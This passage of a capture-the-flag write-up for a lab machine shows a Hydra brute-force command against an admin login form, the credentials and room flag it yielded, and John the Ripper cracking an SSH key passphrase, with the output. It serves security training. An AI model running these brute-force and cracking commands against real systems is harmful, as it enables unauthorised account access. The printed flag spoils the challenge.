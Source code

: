 <div align="center">
  <img src="gobuster_recon.png" alt="Gobuster Results" width="800"/>
</div>

---

## Hydra Brute Force

Brute force the admin panel login:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.201.35.151 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid" -V
```

> Always match the user and pass field names from the form page.

**Found credentials:**
- **Username:** admin
- **Password:** xavier

<div align="center">
  <img src="hydra.png" alt="Hydra Brute Force" width="800"/>
</div>

---

## Admin Panel

- **Web flag:** `THM{brut3_f0rce_is_e4sy}`

<div align="center">
  <img src="admin_panel.png" alt="Admin Panel" width="800"/>
</div>

---

## Crack the RSA Key

Copy the RSA key to your local machine:

<div align="center">
  <img src="rsa_file.png" alt="RSA File" width="800"/>
</div>

Convert the key for John the Ripper:

```bash
ssh2john id_rsa > hash_rsa.txt
john hash_rsa.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)     
1g 0:00:00:00 DONE (2025-09-07 15:32) 3.571g/s 259314p/s 259314c/s 259314C/s saloni..rock14
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
